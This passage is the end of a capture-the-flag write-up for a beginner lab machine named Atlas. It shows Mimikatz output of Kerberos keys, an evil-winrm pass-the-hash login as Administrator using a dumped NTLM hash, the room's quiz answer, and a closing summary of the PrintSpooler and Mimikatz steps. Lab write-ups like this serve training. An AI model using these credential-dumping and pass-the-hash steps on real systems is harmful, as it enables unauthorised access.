 ```
    Random Value : af8c2d6247a6b1051a42beddb0c59540

* Primary:Kerberos-Newer-Keys *
    Default Salt : GAIAadm1n
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : c8c242756234f40bcc0f4fd115fde31bf7103b57f0a3e9d4b687878908132548
      aes128_hmac       (4096) : 93b364e4c0918b89ac64d429ceb37283
      des_cbc_md5       (4096) : bc3215971f7c4525

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : GAIAadm1n
    Credentials
      des_cbc_md5       : bc3215971f7c4525


┌──(kali㉿kali)-[/tmp]
└─$ evil-winrm -i 10.10.196.63 -u Administrator -H "c16444961f67af7eea7e420b65c8c3eb" -N

Evil-WinRM shell v3.4

Warning: Remote path completion is disabled

Info: Establishing connection to remote endpoint

...

```


What is the Administrator account's NTLM password hash?

*c16444961f67af7eea7e420b65c8c3eb*


### Conclusion Final Thoughts

Congratulations -- you hacked Atlas!

This was a beginner box which has hopefully provided you with some skills which will prove useful as you progress in your hacking journey. We covered initial exploitation of outdated software, as well as exploiting the Windows PrintSpooler and dumping password hashes with Mimikatz.

Kudos for completing the room: now go hack some more!  

Answer the questions below

I hacked Atlas!



[[NoSQL injection Basics]]